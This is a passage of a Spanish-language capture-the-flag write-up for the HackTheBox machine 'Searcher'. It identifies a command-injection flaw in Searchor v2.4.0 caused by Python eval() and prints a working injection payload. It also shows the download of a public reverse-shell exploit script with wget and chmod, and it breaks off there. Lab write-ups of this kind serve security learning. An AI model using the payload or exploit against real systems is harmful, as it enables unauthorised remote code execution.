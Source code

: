 ```bash
echo "10.10.11.208 gitea.searcher.htb" | sudo tee -a /etc/hosts
```

### Hallazgo clave

En el pie de página, se revela que la aplicación usa **Searchor v2.4.0**. Una investigación rápida muestra que esta versión es vulnerable a ejecución de código arbitrario y un exploit público:

https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection

![](assets/Pasted%20image%2020250504114337.png)

El problema radica en el uso inseguro de la función `eval()` de Python.

---

## 💉 Explotación

### Payload para prueba de concepto

```python
'),__import__('os').system('id')#
```

### Reverse Shell

Descargamos el exploit

```
wget https://raw.githubusercontent.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection/refs/heads/main/exploit.sh
```

Le concedemos permisos de ejecución

```
chmod +x exploit.sh
```
